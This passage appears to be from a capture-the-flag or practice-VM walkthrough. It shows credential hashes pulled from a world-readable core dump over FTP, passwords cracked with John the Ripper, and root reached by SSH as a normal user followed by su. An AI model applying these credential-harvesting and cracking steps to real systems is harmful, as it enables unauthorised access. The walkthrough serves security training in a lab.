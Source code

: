 ```
362436 bytes received in 0.01 secs (24.3928 MB/s)
```

Seems like there is a shadow file at `/download/etc/shadow` which is world-readable, but there's also `/download/etc/core` which is abnormally large so let's grab it.

```
root@kali:~# strings core
// output truncated
root:$1$aQo/FOTu$rriwTq.pGmN3OhFe75yd30:13574:0:::::bin:*:9797:0:::::daemon:*:9797:0:::::adm:*:9797:0:::::lp:*:9797:0:::::sync:*:9797:0:::::shutdown:*:9797:0:::::halt:*:9797:0:::::mail:*:9797:0:::::news:*:9797:0:::::uucp:*:9797:0:::::operator:*:9797:0:::::games:*:9797:0:::::ftp:*:9797:0:::::smmsp:*:9797:0:::::mysql:*:9797:0:::::rpc:*:9797:0:::::sshd:*:9797:0:::::gdm:*:9797:0:::::pop:*:9797:0:::::nobody:*:9797:0:::::aadams:$1$klZ09iws$fQDiqXfQXBErilgdRyogn.:13570:0:99999:7:::bbanter:$1$1wY0b2Bt$Q6cLev2TG9eH9iIaTuFKy1:13571:0:99999:7:::ccoffee:$1$6yf/SuEu$EZ1TWxFMHE0pDXCCMQu70/:13574:0:99999:7:::
```

Using John the Ripper we find out the following passwords:

```
root:Complexity
bbanter:Zymurgy
```

Trying to login as root via SSH is denied by default, so we have to ssh in as `bbanter` then perform a `su - root` to root. Let us look for interesting files:

```
root@slax:~# ls -al /home/*
/home/aadams:
total 4
drwxr-xr-x 2 aadams users   80 Mar 15  2007 ./
drwxr-xr-x 8 root   root   140 Mar 15  2007 ../
-rw-r--r-- 1 aadams users 3729 Feb  4  2007 .screenrc

/home/bbanter:
total 4
drwxr-xr-x 2 bbanter users   80 Mar 15  2007 ./
drwxr-xr-x 8 root    root   140 Mar 15  2007 ../
-rw-r--r-- 1 bbanter users 3729 Feb  4  2007 .screenrc

/home/ccoffee:
total 4
drwxr-xr-x 2 ccoffee users   80 Mar 15  2007 ./
drwxr-xr-x 8 root    root   140 Mar 15  2007 ../
-rw-r--r-- 1 ccoffee users 3729 Feb  4  2007 .screenrc

/home/ftp:
total 0
drwxr-xr-x 4 root   root  80 Mar 15  2007 ./
drwxr-xr-x 8 root   root 140 Mar 15  2007 ../
drwxr-xr-x 7 aadams  513 160 Mar 15  2007 download/
drwxrwxrwx 2 root   root  80 Jan  5 02:48 incoming/

/home/root:
total 4
drwxr-xr-x 3 aadams  513  100 Mar 15  2007 ./
drwxr-xr-x 8 root   root  140 Mar 15  2007 ../
drwx------ 2 root   root  100 Mar 15  2007 .save/
-rw-r--r-- 1 aadams  513 3729 Feb 27  2007 .screenrc
```
